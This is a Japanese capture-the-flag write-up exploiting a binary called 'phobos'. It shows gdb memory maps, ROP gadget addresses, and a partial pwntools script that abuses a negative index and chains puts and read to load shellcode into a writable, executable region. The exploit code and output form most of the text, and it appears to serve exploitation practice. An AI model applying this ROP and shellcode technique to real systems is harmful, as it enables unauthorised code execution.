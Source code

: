 gdb-peda$ vmmap  
0x00400000 0x00401000 r-xp /phobos  
0x00600000 0x00601000 rwxp /phobos  
(後略)  


2行目の領域に書き込み・実行権限があるのでいけそう。  
4kb分の領域があればコード実行には十分。  
0x00600000-0x00601000 rwxp /phobos  
ここにread関数で読み込ませて、最終的に0x600000にジャンプ(return)する方針に決定。  

## ROPで呼び出す関数とガジェットのアドレスを調べる
x86-64はレジスタ経由で引数を渡すので  
スタックから取り出してレジスタに突っ込むガジェットを調べる。  
第一引数：rdi  
第二引数：rsi  
第三引数：rdx  
なので、スタックの先頭からこれら3種のレジスタに突っ込まれる感じのガジェットを見つける。  
たいていの場合rdxに突っ込むガジェットがなかったりするので  
その時はその時で考える。
極論、呼ぶのはread関数なので  
第三引数(rdi)は50以上の値になればいいんじゃないかとおもう  
50バイト分読み込めれば、シェルコード動かせそうだし。  
というわけで見つけたガジェットがこれ  
> rp-lin-x64 -r 3 -f phobos  
0x00400873: pop rdi ; ret  ;  (1 found)  
0x00400871: pop rsi ; pop r15 ; ret  ;  (1 found)  

予想通りrdxに対してのガジェットが見つからなかったけどまぁよし。  
puts関数読んで、rdxの値を適当な値にしましょ。  

順番的には、puts呼んでから、rdi,rsiを決定する方針で。  
puts関数：0x400520  
read関数：0x400540  

## exploit
```#!/usr/bin/python
from pwn import *

# 接続
r = remote('localhost','11111')

# 1回目の入力は何でもいい
r.write('hogehoge\n')
r.read()
sleep(0.1)

# 2回目の入力が大事。
# ここで上に行き過ぎると下から出てくる理論を使う。
r.write('-120\n')
r.read()
sleep(0.5)

# 攻撃コードの準備
# readを呼ぶためにガジェットをrp++とかobjdumpで調べる。
popRdi = 0x00400873
popRsi = 0x00400871
putsPlt = 0x400520
readPlt = 0x400540

puts = lambda string:p64(popRdi)+p64(string)+p64(putsPlt)
read = lambda handle,buf:p64(popRdi)+p64(handle)+p64(popRsi)+p64(buf)+p64(0xdeadbeef)+p64(readPlt)
ret = lambda addr:p64(addr)
payload = 'AAAAAAAAAAAAAAAAAAAAAAAA'+puts(0x400898)+read(0,0x00600000)
```
